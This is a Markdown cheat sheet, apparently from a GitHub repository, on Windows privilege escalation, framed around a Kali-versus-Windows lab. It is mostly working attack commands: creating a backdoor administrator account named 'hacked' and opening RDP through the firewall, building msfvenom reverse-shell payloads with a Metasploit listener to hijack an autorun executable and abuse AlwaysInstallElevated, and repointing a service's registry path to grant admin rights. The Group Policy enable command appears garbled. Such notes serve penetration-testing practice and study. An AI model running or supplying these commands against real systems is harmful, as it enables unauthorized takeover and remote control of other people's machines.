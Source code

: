 # Windows Privlage Escalation
![alt text](https://miro.medium.com/max/2400/0*I-5KzneqUHfF7bHR.png)
## Kernel Exploits
- https://github.com/SecWiki/windows-kernel-exploits
## Admin Service that a Standard User can run
- https://www.youtube.com/watch?v=3BQKpPNlTSo
## Run Executable in Background
````
start /B program
````
## Disable/Enable Group Policy
- Disable:
````
REG add "HKCU\Software\Policies\Microsoft\MMC{8FC0B734-A0E1-11D1-A7D3-0000F87571E3}" /v Restrict_Run /t REG_DWORD /d 1 /f
````
## Enable:
````
REG add "HKCU\Software\Policies\Microsoft\MMC{8FC0B734-A0E1-11D1-A7D3-0000F87571E3}" /v Restrict_Run /0 REG_DWORD /d 1 /f
Add Admin & Enable RDP
net user /add hacked Password1
net localgroup administrators hacked /add
net localgroup Administrateurs hacked /add (For French target)
net localgroup "Remote Desktop Users" hacked /add
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh firewall set service type = REMOTEDESKTOP mode = ENABLE scope = CUSTOM addresses = 10.0.0.1
````
## xfreerdp
````
xfreerdp /v:10.10.25.227 /u:Wade /p:parzival /cert:ignore /drive:/usr/share/windows-resources,share /dynamic-resolution
````
#### Credit
- Taken from Tib3rius

## Basic Enumeration
- Find out the users on the box and enumerate their privlages
````
net users
net users Administrator
````
## Registry Escalation - Autoruns
- Detection
- 1. Open command prompt and type: 
````
C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
````
- 2. In Autoruns, click on the `Logon` tab.
- 3. From the listed results, notice that the “My Program” entry is pointing to 
````
C:\Program Files\Autorun Program\program.exe
````
- 4. In command prompt type: 
````
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
````
- 5. From the output, notice that the `"Everyone"` user group has `"FILE_ALL_ACCESS"` permission on the `"program.exe"` file.
- Exploitation
- Kali VM
- 1. Open command prompt and type: `msfconsole`
- 2. In Metasploit (msf > prompt) type: `use multi/handler`
- 3. In Metasploit (msf > prompt) type: `set payload windows/meterpreter/reverse_tcp` or `windows/x64/shell/reverse_tcp`
- 4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
- 5. In Metasploit (msf > prompt) type: `run`
- 6. Open an additional command prompt and type: `msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f exe -o program.exe`
- 7. Copy the generated file, `program.exe`, to the Windows VM.
- Windows VM
- 1. Place `program.exe` in `C:\Program Files\Autorun Program`
- 2. To simulate the privilege escalation effect, logoff and then log back on as an administrator user.
- Kali VM
- 1. Wait for a new session to open in Metasploit.
- 2. In Metasploit (msf > prompt) type: `sessions -i [Session ID]`
- 3. To confirm that the attack succeeded, in Metasploit (msf > prompt) type: `getuid`
## Registry Escalation AlwaysInstallElevated
- Detection
- Windows VM
- 1.Open command prompt and type: 
````
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
````
- 2.From the output, notice that `AlwaysInstallElevated` value is `1`.
- 3.In command prompt type: 
````
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
````
- 4.From the output, notice that `AlwaysInstallElevated` value is `1`.
- Exploitation
- Kali VM

- 1. Open command prompt and type: msfconsole
- 2. In Metasploit (msf > prompt) type: `use multi/handler`
- 3. In Metasploit (msf > prompt) type: set payload `windows/meterpreter/reverse_tcp` or `windows/shell_reverse_tcp
- 4. In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
- 5. In Metasploit (msf > prompt) type: `run`
- 6. Open an additional command prompt and type: 
````
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi
````
7. Copy the generated file, setup.msi, to the Windows VM.

Windows VM

1.Place `setup.msi` in `C:\Temp`.
2.Open command prompt and type: 
````
msiexec /quiet /qn /i C:\Temp\setup.msi
````
## Service Escalation The Registry
- Detection
- Windows VM
- 1. Open powershell prompt and type: 
````
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
````
- 2. Notice that the output suggests that user belong to `NT AUTHORITY\INTERACTIVE` has `FullContol` permission over the registry key.
- Exploitation
- Windows VM
- 1. Copy `C:\Users\User\Desktop\Tools\Source\windows_service.c` to the Kali VM.

Kali VM

1. Open windows_service.c in a text editor and replace the command used by the system() function to: cmd.exe /k net localgroup administrators user /add
2. Exit the text editor and compile the file by typing the following in the command prompt: x86_64-w64-mingw32-gcc windows_service.c -o x.exe (NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64') 
3. Copy the generated file x.exe, to the Windows VM.

Windows VM

1. Place x.exe in ‘C:\Temp’.
2. Open command prompt at type: reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
3. In the command prompt type: sc start regsvc
4. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators

















